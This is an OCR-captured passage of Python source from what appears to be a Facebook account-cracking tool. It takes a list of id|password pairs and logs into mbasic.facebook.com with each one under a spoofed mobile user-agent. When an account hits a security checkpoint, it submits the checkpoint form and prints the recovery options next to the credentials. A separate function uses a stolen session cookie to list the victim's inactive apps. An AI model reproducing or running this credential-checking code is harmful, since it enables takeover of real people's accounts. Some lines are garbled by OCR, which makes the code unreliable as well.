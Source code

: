 	except AttributeError:
		print ("\r    %s\033[0m cookie invalid"%(M))
	w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":"noscript=1;"+kuki}).text
	sop = bs4.BeautifulSoup(w,"html.parser")
	x = sop.find("form",method="post")
	game = [i.text for i in x.find_all("h3")]
	try:
		for i in range(len(game)):
			print ("\r%s  \033[0m              ╰─≫ %s"%(P,game[i].replace("Kedaluwarsa"," Kedaluwarsa")))
	except AttributeError:
		print ("\r    %s \033[0mcookie invalid"%(M))

def cek_opsi():
	c = len(akun)
	hu = '#'%(c)
	cetak(nel(hu, title='CEK OPSI'))
	input(u+'['+h+'•'+u+'] INPUT')
	cek = '# PROSESES CO'
	sol().print(mark(cek, style='pink'))
	love = 0
	for kes in akun:
		try:
			try:
				id,pw = kes.split('|')[0],kes.split('|')[1]
			except IndexError:
				time.sleep(2)
				print('\r%s++++ %s ERROR=-     %s'%(b,kes,x))
				print('\r%s---> Separator Not Supported For This Program%s'%(u,x))
				continue
			bi = random.choice([u,k,kk,b,h,hh])
			print('\r%s---> %s/%s ---> { %s }%s'%(bi,love,len(akun),id,x), end=' ');sys.stdout.flush()
			ua = 'Mozilla/5.0 (Linux; Android 11; TECNO KD8) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4755.101 Mobile Safari/537.36'
			ses = requests.Session()
			header = {"Host": "mbasic.facebook.com","cache-control": "max-age=0","upgrade-insecure-requests": "1","origin": "https://mbasic.facebook.com","content-type": "application/x-www-form-urlencoded","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with": "mark.via.gp","sec-fetch-site": "same-origin","sec-fetch-mode": "navigate","sec-fetch-user": "?1","sec-fetch-dest": "document","referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}
			hi = ses.get('https://mbasic.facebook.com')
			ho = sop(ses.post('https://mbasic.facebook.com/login.php', data={'email':id,'pass':pw,'login':'submit'}, headers=header, allow_redirects=True).text,'html.parser')
			if "checkpoint" in ses.cookies.get_dict().keys():
				try:
					jo = ho.find('form')
					data = {}
					lion = ['nh','jazoest','fb_dtsg','submit[Continue]','checkpoint_data']
					for anj in jo('input'):
						if anj.get('name') in lion:
							data.update({anj.get('name'):anj.get('value')})
					kent = sop(ses.post('https://mbasic.facebook.com'+str(jo['action']), data=data, headers=header).text,'html.parser')
					print('\r%s++++ %s|%s ----> CP       %s'%(b,id,pw,x))
					opsi = kent.find_all('option')
					if len(opsi)==0:
						print('\r%s---> Tap Yes / A2F (Cek Login Di Lite/Mbasic%s)'%(hh,x))
					else:
						for opsii in opsi:
							print('\r%s---> %s%s'%(kk,opsii.text,x))
				except:
					print('\r%s++++ %s|%s ----> f       %s'%(b,id,pw,x))